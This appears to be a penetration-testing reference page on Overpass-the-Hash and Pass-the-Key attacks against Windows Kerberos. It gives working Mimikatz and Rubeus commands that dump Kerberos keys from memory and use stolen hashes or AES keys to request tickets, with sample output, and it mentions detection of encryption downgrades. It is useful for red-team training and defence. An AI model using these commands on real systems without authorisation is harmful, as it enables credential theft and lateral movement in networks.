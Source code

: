 #### Overpass the Hash
Turn a hash/key (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a fully-fledged ticket-granting-ticket (TGT), effectively "upgrading" from NTLM to Kerberos.
1. The attacker obtains a user's NTLM hash.
2. Instead of using the hash directly with NTLM authentication (pass the hash), they use it to request a Kerberos TGT.
3. This creates new logon sessions that use Kerberos instead of NTLM.
4. The attacker can then access resources that may only accept Kerberos authentication.
#### Pass the Key
Pass the key is similar but uses the Kerberos authentication protocol elements directly.
1. The attacker extracts the long-term secret key (DES or AES keys) from the Windows memory.
2. These keys are derived from the user's password and are used for Kerberos authentication.
3. The attacker uses these keys directly to generate Kerberos tickets.
---
## OPtH and PtK from Windows
> **Note:** Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.
1. Mimikatz
``` Powershell
# Extract kerberos keys
PS> mimikatz.exe "privilege::debug" "sekurlsa::ekeys"
...[SNIP]...
         * Username : username
         * Domain   : certainDomain
         * Password : (null)
         * Key List :
           aes256_hmac       b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60
           rc4_hmac_nt       3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old      3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_md4           3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_nt_exp   3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old_exp  3f74aa8f08f712f09cd5177b5c1ce50f
...[SNIP]...


# Use extracted AES256_HMAC and RC4_HMAC keys
PS> mimikatz.exe "privilege::debug" "sekurlsa::pth /domain: /user: /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f"
# you can use /ntlm and /rc4 to overpass the hsah and /aes128,/aes256 to pass the key 
# A nwe cmd in the context of the target user will pop up or add /ptt to inject the TGT in the current session
```
2. Rubeus
``` Powershell
# Extract kerberos keys
PS> Rubeus.exe dump /nowrap

# Use extracted key which can be /rc4, /aes128, /aes256, or /des.
PS> Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes256:b21c99fc068e3ab... /nowrap 
# you can use /ntlm and /rc4 to overpass the hsah and /aes128,/aes256 to pass the key 
```
---
> [!Important]
> Note: Modern Windows domains (functional level 2008 and above) use AES encryption by default in normal Kerberos exchanges. If we use a rc4_hmac (NTLM) hash in a Kerberos exchange instead of an aes256_cts_hmac_sha1 (or aes128) key, it may be detected as an "encryption downgrade." 

